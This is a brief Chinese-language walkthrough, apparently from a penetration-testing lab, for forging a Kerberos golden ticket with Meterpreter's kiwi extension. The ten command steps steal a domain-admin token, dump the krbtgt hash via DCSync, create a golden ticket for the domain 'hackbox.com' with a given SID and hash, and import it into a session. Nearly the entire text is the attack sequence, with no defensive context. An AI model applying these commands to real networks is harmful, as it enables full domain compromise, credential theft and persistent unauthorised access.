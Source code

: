 ## 黄金票据制作

1. 切换到web`sessions –i 1`
2. `load kiwi`
3. `kerberos_ticket_purge`清除票据
4. 进入到域控`sessions 2`
5. ps 去窃取一个权限
6. `steal_token 2092`变成了域控管理员
7. `dcsync_ntlm krbtgt`
8. `golden_ticket_create -d hackbox.com -u moonsec -s
   S-1-5-21-2005268815-658469957-1189185684 -k 6f60ace6accbcb76078ccc0312174e98 -t
   /tmp/krbtgt.ticket`票据就做好了
9. 切换到web`sessions –i 1`
10. `kerberos_ticket_use /tmp/krbtgt.ticket`导入票据
